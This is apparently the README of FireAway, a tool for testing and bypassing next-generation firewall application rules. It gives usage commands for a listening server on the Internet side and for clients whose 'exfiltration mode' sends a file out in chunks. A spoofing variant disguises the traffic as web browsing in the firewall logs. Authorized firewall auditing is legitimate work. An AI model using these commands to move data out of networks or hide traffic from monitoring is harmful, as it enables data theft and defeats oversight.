FireAway-Next Generation Firewall Bypass Tool
=========
*v0.1*

Fireaway is a tool for auditing, bypassing, and exfiltrating data against layer 7/AppID inspection rules on next generation firewalls.  These tactics are based on the principle of having to allow connections to establish through the NGFW in order to see layer 7 data to filter, as well as spoofing applications to hide communication channels inside the firewall logs as normal user traffic, such as Internet surfing.

 **Starting the FireAway Server:**
Typically the FireAway server would be started on the egress side of the firewall (such as a server on the Internet), and listen on a port believed to be closed to see if any application based rules allow traffic out on this port:
 
 ```
python fa_server.py <port to listen on>
```

All data received by the server on this port will be saved to the file ReceivedData.txt in the directory the server was launched from.  If the server detects differing sizes in the amount of data received (indicating firewall filtering has kicked in), this output will be shown on the server console:

  ```
Got the same or lower amount of data on two consecutive runs.  If sending test data, maximum data leak size may have been reached.
```


**Starting the FireAway Client/Application Spoofer:**
The FireAway client has two modes:
 
 - Test mode (mode 0)-Send random data in incrementing chunk sizes to see how much data can be sent before the firewall AppID engages and stops traffic flow.
 - Exfiltration mode (mode 1)-Open a file and send it in chunks through the firewall.

To start the basic client:

  ```
python fa_client.py <FireAway server IP> <Fireaway Server Port> <Client mode (0 or 1)>
```

To start the application spoofing client:
  ```
python fa_spoof.py <FireAway Server IP> <Fireaway Server Port> <Client mode (0 or 1)>

